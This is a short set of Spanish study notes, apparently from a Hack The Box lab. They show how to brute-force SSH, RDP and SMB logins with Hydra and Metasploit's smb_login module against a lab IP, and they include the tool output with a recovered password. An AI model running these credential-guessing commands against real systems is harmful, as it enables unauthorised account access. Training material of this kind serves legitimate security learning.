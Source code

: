 
# HYDRA

### HYDRA & SSH
Podemos utilizar Hydra para hacer fuerza bruta contra el protocolo SSH:
```shell-session
Polika4RM@htb[/htb]$ hydra -L user.list -P password.list ssh://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:03:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://10.129.42.197:22/
[22][ssh] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```

Una vez tengamos las credenciales, podremos loggearnos con:
```shell-session
ssh <nombre_usuario@<ip_servidor_ssh>
```

### HYDRA & RDP
Podemos realizar fuerza bruta contra un servidor RDP con HYDRA con el comando.
```
Polika4RM@htb[/htb]$ hydra -L user.list -P password.list rdp://10.129.42.197
```

Con este comando podemos conseguir un usuario y contraseña, credenciales las cuales podemos utilizar mediante xfreerdp o Remmina (de cara a conectarnos al escritorio remoto):
```
xfreerdp /v:<target-IP> /u:<username> /p:<password>
```

### HYDRA & SMB
Podemos hacer fuerza bruta contra un servidor SMB con el comando:
```
hydra -L user.list -P password.list smb://10.129.42.197
```

En caso de recibir un "invalid reply", podemos utilizar el framework de Metasploit para dicha función; pues, utilizaremos:
```
msfconsole
use /auxiliary/scanner/smb/smb_login
set user_file user.list
set pass_file password.list
set rhosts 1.2.3.4
run
```
